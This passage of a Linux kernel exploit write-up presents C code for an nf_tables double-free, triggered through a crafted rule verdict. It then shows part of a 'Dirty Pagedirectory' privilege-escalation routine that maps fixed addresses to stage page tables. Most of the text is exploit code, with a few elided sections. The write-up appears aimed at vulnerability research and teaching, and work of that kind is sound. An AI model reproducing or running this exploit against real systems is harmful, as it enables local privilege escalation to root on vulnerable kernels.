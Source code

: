```c
	nftnl_rule_set(r, NFTNL_RULE_CHAIN, chain);

	// expect protocol to be `proto`
	add_payload(r, NFT_PAYLOAD_NETWORK_HEADER, NFT_REG_1, offsetof(struct iphdr, protocol), sizeof(unsigned char));
	add_cmp(r, NFT_REG_1, NFT_CMP_EQ, &proto, sizeof(unsigned char));

	// expect 4 first bytes of packet to be \x41
    add_payload(r, NFT_PAYLOAD_NETWORK_HEADER, NFT_REG_1, sizeof(struct iphdr), 4);
    add_cmp(r, NFT_REG_1, NFT_CMP_EQ, "\x41\x41\x41\x41", 4);


	// (NF_DROP | -((0xFFFF << 16) >> 16)) == 1, aka NF_ACCEPT (trigger double free)
	// (NF_DROP | -((0xFFF0 << 16) >> 16)) == 16
	add_set_verdict(r, 0xFFFF << 16);

	return r;
}
```

### Pre-allocating Dirty Pagedirectory PUDs

In order to use Dirty Pagedirectory we must register VMAs before we can allocate the pages and pagetables. Additionally, notice how we pre-allocate the PUD for the PMD double-alloc etc, so we do not allocate the PUD when we need to allocate the PMD.

These VMA address ranges are semi-arbitrary, as long as they align with their targetted pagetable entries.

```c
static void privesc_flh_bypass(struct shared_info *memdump_info)
{
	unsigned long long *pmd_area;
	void *_pud_area;
	void *pud_kernel_area;
	void *pud_data_area;
    // ... (more var declarations)

	// pre-allocate PUD for PMD
	mmap((void*)0x200000, 0x200000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	*(unsigned long long*)0x200000 = 0xCAFEBABE;

	// pre-allocate VMA for PMD and PUD (not themself)
	pmd_area = mmap((void*)0x40000000, 0x200000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_SHARED | MAP_ANONYMOUS, -1, 0);  // shared bcs it may be used for cache flushing
	
	// these use different PTEs but the same PUD
	_pud_area = mmap((void*)0x8000000000, 0x400000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_SHARED | MAP_ANONYMOUS, -1, 0);
	pud_kernel_area = _pud_area;
	pud_data_area = _pud_area + 0x200000;

    // ... (more exploit code)
}
```
